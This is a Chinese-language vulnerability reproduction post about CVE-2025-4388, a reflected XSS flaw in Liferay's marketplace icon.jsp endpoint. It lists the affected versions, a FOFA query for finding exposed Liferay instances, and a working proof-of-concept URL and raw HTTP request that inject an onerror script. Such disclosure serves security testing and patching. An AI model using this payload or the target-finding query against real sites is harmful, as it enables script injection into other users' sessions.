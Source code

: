 ## 1. Liferay简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

Liferay

## 2.漏洞描述

攻击者可以通过注入恶意的 JavaScript 代码到 `modules/apps/marketplace/marketplace-app-manager-web` 中来利用此漏洞。此漏洞属于反射型 XSS，意味着攻击者需要诱使用户点击特定的链接或进行某些操作来触发漏洞。Liferay Portal 7.4.0 至 7.4.3.131 以及 Liferay DXP 2024.Q4.0 至 2024.Q4.5、2024.Q3.1 至 2024.Q3.13、2024.Q2.0 至 2024.Q2.13、2024.Q1.1 至 2024.Q1.12 和 7.4 GA 至更新 92 中存在的反射型跨站脚本 (XSS) 漏洞，允许远程非认证攻击者注入 JavaScript 到 `modules/apps/marketplace/marketplace-app-manager-web` 中。

CVE编号:CVE-2025-4388

CNNVD编号:

CNVD编号:

## 3.影响版本

- • Liferay Portal: 7.4.0 至 7.4.3.131 - Liferay DXP: - 2024.Q4.0 至 2024.Q4.5 - 2024.Q3.1 至 2024.Q3.13 - 2024.Q2.0 至 2024.Q2.13 - 2024.Q1.1 至 2024.Q1.12 - 7.4 GA 至 92

  ![Liferay o/marketplace-app-manager-web/icon.jsp接口存在跨站漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YEnESfdHggEXYXRkAS3z0Lwf4zWicPKe11NBW0Rn1VQT21AYBRqelF6SEqK1QW33CurqqWIQS5G8Q/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1)Liferay o/marketplace-app-manager-web/icon.jsp接口存在跨站漏洞

## 4.fofa查询语句

body="liferayPortalCSS"

## 5.漏洞复现

漏洞链接：https://xx.xx.xx.xx/o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E

漏洞数据包：

```
GET /o/marketplace-app-manager-web/icon.jsp?iconURL=https:///%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive


```

![图片](Liferay%20icon.jsp%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%B7%A8%E7%AB%99%E6%BC%8F%E6%B4%9ECVE-2025-4388.assets/640-1749174913089-7.jpeg)